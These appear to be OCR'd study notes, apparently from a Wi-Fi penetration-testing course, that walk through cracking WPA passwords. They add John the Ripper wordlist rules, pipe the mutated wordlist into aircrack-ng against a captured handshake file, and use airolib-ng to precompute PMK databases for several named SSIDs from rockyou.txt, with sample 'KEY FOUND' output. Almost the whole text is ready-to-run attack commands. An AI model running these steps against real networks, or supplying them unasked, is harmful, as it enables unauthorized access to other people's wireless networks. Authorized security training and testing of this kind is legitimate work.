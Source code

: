 `sudo nano /etc/john/john.conf`

Add under `[List.Rules:Wordlist]`:

`$[0-9]$[0-9] $[0-9]$[0-9]$[0-9]`

---

#### 🔹 Test Custom JtR Rules

`john --wordlist=/usr/share/john/password.lst --rules --stdout | grep -i Password123`

---

#### 🔹 Crack WPA Handshake Using JtR Output

`john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - wpa-01.cap`

✅ **KEY FOUND!** Example:

`KEY FOUND! [ Password123 ]`

### 📘 **Airolib-ng Notes for Multi-SSID WPA Cracking**

---

#### 🔹 Create PMK Database

```
airolib-ng wifi-db --init
```

---

#### 🔹 Import Multiple SSIDs

```
airolib-ng wifi-db --import essid Home_Network 
airolib-ng wifi-db --import essid Cafe_Wifi 
airolib-ng wifi-db --import essid Office_Wifi
```

---

#### 🔹 Import Wordlist

```
airolib-ng wifi-db --import passwd /usr/share/wordlists/rockyou.txt
```


---

#### 🔹 Generate PMK Entries (Pre-compute all combinations)

```
airolib-ng wifi-db --batch
```

---